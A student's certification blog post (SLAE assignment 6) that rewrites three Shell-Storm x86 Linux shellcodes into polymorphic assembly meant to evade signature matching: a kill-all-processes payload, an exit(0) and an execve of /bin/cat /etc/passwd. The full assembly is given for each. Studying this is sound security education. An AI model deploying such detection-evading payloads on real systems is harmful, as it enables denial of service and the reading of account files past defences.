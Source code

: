 # SLAE Exam Blog Posts

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certifiation:

https://www.pentesteracademy.com/course?id=3

Student ID: PA-31074

[All Assignments](../Readme.md)
____

</br>

# Assignment 6
For the sixth assignment I need to solve the following tasks:
* Take up at least 3 shellcode from Shell-Storm and create polymorphic versions of them to beat pattern matchinng
* The polcymorphic versions cannot be larger 150% of the existing shellcode
* Bonus points for making it shorter in length than original

___

</br>

## Kill all linux processes shellcode

The first shellcode I want to use here is one which kills all processes in Linux and has 11 bytes. (http://shell-storm.org/shellcode/files/shellcode-212.php)
``` assembly
push byte 37
pop eax
push byte -1
pop ebx
push byte 9
pop ecx
int 0x80
```
My idea was to get rid of these push and pop instcutions. So for loading eax with 37 I just moved the value 37 in al. I used the same for replacing push byte 9 and pop ecx where I just moved 9 in cl. And for getting the -1 in ebx I just set ebx at the start to zero (with XOR) and decreasing it then by 1 to get the -1.
``` assembly
xor ebx, ebx
mov ecx, ebx
mul ebx
mov al, 37
dec ebx
mov cl, 9
int 0x80
```
So my polymorphic shellcode has 13 bytes which is compared to the original one with 11 bytes an increase of size of 20%. Theoretically the first 6 bytes can also be reduced so that the shelcode is only 7 bytes depending on the instructions / the contents of the registers before. But with the 13 bytes version we are on the safe side.

___

## Exit(0) shellcode

The second shellcode I want to change is an exit(0) shelcode with 8 bytes. (http://shell-storm.org/shellcode/files/shellcode-623.php)
``` assembly
xor eax, eax
mov al, 0x1
xor ebx, ebx
int 0x80
```
Because we need 0x1 in eax instead of a move instruction with 2 bytes we could use an inc eax which will only take 1 byte. Also we can change xor ebx, ebx to a mov instruction to change the instructions a little bit.
```
xor eax, eax
mov ebx, eax
inc eax
int 0x80
```
The changed shellcode has now a size of 7 bytes which is an decrease by nearly 15%.

Here you can see the programm running with the exit code:

![exit](images/exit.png)

___

## bin/cat /etc/passwd reader shellcode
The last shellcode is a reader of the passwd file (/etc/passwd) with the cat tool (
http://shell-storm.org/shellcode/files/shellcode-571.php). This shellcode has a size of 43 bytes. In this polymorphic version I want to play with some other machanisms and will not take a big look at the size.
So the original assembly instructions are the following:
``` assembly
xor    eax,eax
cdq    
push   edx
push   0x7461632f
push   0x6e69622f
mov    ebx,esp
push   edx
push   0x64777373
push   0x61702f2f
push   0x6374652f
mov    ecx,esp
mov    al,0xb
push   edx
push   ecx
push   ebx
mov    ecx,esp
int    0x80
```
Instead of getting zero to edx with the short instruction cdq I will xor edx with itself and to get eax to zero I will multiply it with edx. Instead of pushing the whole time edx to the stack which is zero I will push eax which is also zero. Also in the 2nd push of the string arguments which is /etc/passwd we'll instead use /etc//////passwd which should also work but is increasing the whole shellcode with a normal push by 5. Also I used for the push to the stack 3 times not the normall push but instead the manual writing to the stack which also makes the shellcode much longer. In the end I add increase eax by 1 and do a XOR operation with 0xa to set this register to 0xb which is execve. 
``` assembly
xor    edx,edx
mul    edx
push   eax
push   0x7461632f
push   0x6e69622f
mov    ebx,esp
push   eax
mov    dword [esp-8], 0x61702f2f
mov    dword [esp-4], 0x64777373
sub    esp, 8
push   0x2f2f2f2f
push   0x6374652f
mov    ecx,esp
push   eax
push   ecx
push   ebx
inc    eax
xor    al, 0xa
mov    ecx,esp
int    0x80
```
So in the end my changed shellcode has 59 bytes which is compared to the original shellcode with 43 bytes and increase of nearly 37%. 

Also it is still working corectly:

![catPasswd](images/catPasswd.png)

